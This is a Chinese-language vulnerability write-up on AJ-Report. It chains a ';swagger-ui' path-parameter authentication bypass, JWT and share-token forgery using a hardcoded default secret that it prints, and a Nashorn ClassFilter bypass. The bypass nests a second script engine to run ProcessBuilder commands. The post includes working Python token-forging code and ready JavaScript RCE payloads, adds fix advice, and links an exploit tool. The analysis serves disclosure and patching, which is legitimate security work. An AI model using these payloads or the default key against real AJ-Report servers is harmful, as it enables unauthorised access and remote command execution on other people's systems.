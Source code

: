 #### TL;DR

前几天在公众号看到`AJ-Report`未授权远程命令执行，这个洞还挺通杀的。今天看了下命令执行似乎已经修复了，但是这里的`patch`没啥用。而且最关键的鉴权绕过没修，其实鉴权修复了也会有默认`key`导致鉴权绕过的问题。文末给出了利用工具。

#### 漏洞分析

##### 鉴权绕过

这个系统的接口绝大部分都需要登陆，需要绕一下。

鉴权在`TokenFilter`：

![image-20240510135030938](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510135030938.png)

经典的通过`request.getRequestURI()`拿到`uri`，后面如果`uri`包含`swagger-ui`直接放行。

因为是拿的`URI`，没有参数信息所以没法用`?swagger-ui`绕。

但可以用`;swagger-ui`绕过，因为`parsePathParameters:950, CoyoteAdapter (org.apache.catalina.connector)`这里会取分号作为`pathParamStart`。

![image-20240510154835262](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510154835262.png)

而`pathParamEnd`这里会取`/`作为结尾。最后截断中间的字符串，也就是说`/a;b/c`最终会解析为`/a/c`

![1715327731929](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715327731929.png)

所以用`/dataSetParam;swagger-ui/verification`就能请求到后端接口了。

![1715327932734](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715327932734.png)

##### 另一处鉴权绕过（默认key）

如果`swagger-ui`放行那里被修复了怎么办呢？可以看到后续会校验`token`。

![1715402625974](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715402625974.png)

校验`token`类也是安吉自己写的，给`jwt payload`加了四个`key-value pairs`。

```java
public String createToken(String username, String uuid, Integer type, String tenantCode) {
    String token = JWT.create().withClaim("username", username).withClaim("uuid", uuid).withClaim("type", type).withClaim("tenant", tenantCode).sign(Algorithm.HMAC256(this.gaeaProperties.getSecurity().getJwtSecret()));
    return token;
}
public String getUsername(String token) {
	Claim claim = (Claim)this.getClaim(token).get("username");
	return claim == null ? null : claim.asString();
}
```

重点来了，通过`this.gaeaProperties.getSecurity().getJwtSecret()`拿到签名密钥。

签名密钥在`GaeaProperties$Security`类中，而`setJwtSecret`方法没有被调用过，因此`key`是默认的。

![image-20240511125152829](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240511125152829.png)

伪造`jwt`即可。

```python
def getFakeToken():
    payload = {
        "type": 0,
        "uuid": "627750b8be86421d94facec7e4dba555",
        "tenant": "tenantCode",
        "username": "admin"
    }
    fakeToken = jwt.encode(payload,'anji_plus_gaea_p@ss1234',algorithm='HS256')
    return fakeToken
```

通过校验。

![1715404334246](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715404334246.png)

光伪造`token`还不够。还有个登陆缓存，缓存逻辑具体可参考`/accessUser/login`路由逻辑。`token`的时效是1小时，如果远程一小时内没有`admin`登录过那么缓存就失效了。

![1715404399333](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715404399333.png)

但是看到这里会校验`shareToken`，如果`reportCodeList.stream().noneMatch(uri::contains)`，也就是`uri`包含`reportCode`的话就返回`false`。而`shareToken`是从`Share-Token`请求头取的。

```java
List<String> reportCodeList = JwtUtil.getReportCodeList(shareToken);
if (!uri.endsWith("/reportDashboard/getData") && !uri.endsWith("/reportExcel/preview") && reportCodeList.stream().noneMatch(uri::contains)) {
	ResponseBean responseBean = ResponseBean.builder().code("50014").message("分享链接已过期").build();
	response.getWriter().print(JSONObject.toJSONString(responseBean));
	return;
}
```

再看一下`shareToken`签名，密钥同样硬编码。

![image-20240511132508126](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240511132508126.png)

伪造完`shareToken`就可以访问接口了。

![1715405171916](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715405171916.png)

##### nashorn引擎执行表达式绕过

漏洞在`\src\main\java\com\anjiplus\template\gaea\business\modules\datasetparam\controller\DataSetParamController.java`中的`/verification`路由，可以看到会调用`verification`方法。

![image-20240510094647181](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510094647181.png)

跟进`verification`方法，该方法调用了`engine.eval`执行一段表达式。

![image-20240510094951944](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510094951944.png)

`engine`做了`PATCH`。

![image-20240510095042142](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510095042142.png)

看下`diff`，加了`ClassFilter`，过滤了命令执行的三个类。

![1715307362768](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715307362768.png)

不太了解这个防御逻辑是啥，先尝试打断点看看是什么逻辑：

![1715307603132](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715307603132.png)

到这里有个`classFilter`。调了个寂寞，还是看看怎么`ban`掉类的逻辑吧。

![1715307815270](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715307815270.png)

先用原版`payload`打一下，简单解释下，流传在网上的`payload`定义了`verification`函数是因为执行完`js`后会调用`js`中的`verification`函数，随后将执行结果返回。`verification`函数就是常规的调用`java.lang.ProcessBuilder('whoami').start()`执行命令。

```js
function verification(data){var se= new javax.script.ScriptEngineManager();var r = new java.lang.ProcessBuilder('whoami').start().getInputStream();result=new java.io.BufferedReader(new java.io.InputStreamReader(r));ss='';while((line = result.readLine()) != null){ss+=line};return ss;}
```

执行失败，提示找不到这个类。

![1715308365531](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715308365531.png)

打异常断点看调用栈：

```java
classNotFound:162, NativeJavaPackage (jdk.nashorn.internal.runtime)
invokeStatic_L_V:-1, 282828951 (java.lang.invoke.LambdaForm$DMH)
reinvoke:-1, 1395859879 (java.lang.invoke.LambdaForm$BMH)
dontInline:-1, 1043162593 (java.lang.invoke.LambdaForm$reinvoker)
guard:-1, 1912131086 (java.lang.invoke.LambdaForm$MH)
linkToCallSite:-1, 23493645 (java.lang.invoke.LambdaForm$MH)
verification:1, Script$Recompilation$4$27A$\^eval\_ (jdk.nashorn.internal.scripts)
invokeStatic_L3_L:-1, 246550802 (java.lang.invoke.LambdaForm$DMH)
invokeExact_MT:-1, 664302677 (java.lang.invoke.LambdaForm$MH)
invoke:639, ScriptFunctionData (jdk.nashorn.internal.runtime)
invoke:494, ScriptFunction (jdk.nashorn.internal.runtime)
apply:393, ScriptRuntime (jdk.nashorn.internal.runtime)
callMember:199, ScriptObjectMirror (jdk.nashorn.api.scripting)
invokeImpl:386, NashornScriptEngine (jdk.nashorn.api.scripting)
invokeFunction:190, NashornScriptEngine (jdk.nashorn.api.scripting)
verification:106, DataSetParamServiceImpl
```

都是匿名函数，感觉不太能`debug`。。

经过一番检索发现此处针对`nashorn`的安全过滤是`JEP202`，还是看文档吧：https://openjdk.org/jeps/202。

```apl
Provide a Java class-access filtering interface, ClassFilter, that can be implemented by Java applications that use Nashorn.
提供一个 Java 类访问过滤接口 ，ClassFilter可以由使用 Nashorn 的 Java 应用程序实现。


Nashorn will query a provided instance of the ClassFilter interface before accessing any Java class from a script in order to determine whether the access is allowed. This will occur whether or not a security manager is present.
Nashorn 将在从脚本访问任何 Java 类之前查询提供的接口实例ClassFilter，以确定是否允许访问。无security manager是否存在，都会发生这种情况。

A script should not be able to subvert restrictions by a class filter in any way, not even by using Java's reflection APIs.
脚本不应该能够以任何方式破坏类过滤器的限制，即使使用 Java 的反射 API 也不行。
```

如果存在类过滤器，即使不存在`security manager`，`Nashorn` 也不让你用反射。如果反射可用那么使用类过滤器就没有意义了，因为可以使用反射来绕过类过滤器。尝试了一下反射确实不行。

不过参考`JEP290`大概猜到`JEP202`也是会过滤类，而不是把命令执行的类阉割了。

所以直接用套娃的方式绕就行，在里面再`new`一个`ScriptEngineManager`，然后再`eval`就行。

```js
function verification(data){var se= new javax.script.ScriptEngineManager();var r = se.getEngineByExtension(\"js\").eval(\"new java.lang.ProcessBuilder('whoami').start().getInputStream();\");result=new java.io.BufferedReader(new java.io.InputStreamReader(r));ss='';while((line = result.readLine()) != null){ss+=line};return ss;}
```

执行命令：

![1715318752312](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1715318752312.png)

##### 别的路由

其实`/dataSet/testTransform`路由也会调用到`engine.eval`，但是没有回显。有兴趣的师傅可以看一下，这个接口的逻辑是执行完表达式发起一个`http`请求，返回的是`http`的`response`。

![image-20240510134204870](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240510134204870.png)

#### 修复

主要问题在鉴权而不是 `engine.eval` ， 应该使用 `reqeust.getServletPath()` 获取 `URI`，或者干脆把 `swagger-ui` 放行逻辑那里删掉。

其次需要修改`jwt`默认密钥。


#### 利用工具

https://github.com/yuebusao/AJ-REPORT-EXPLOIT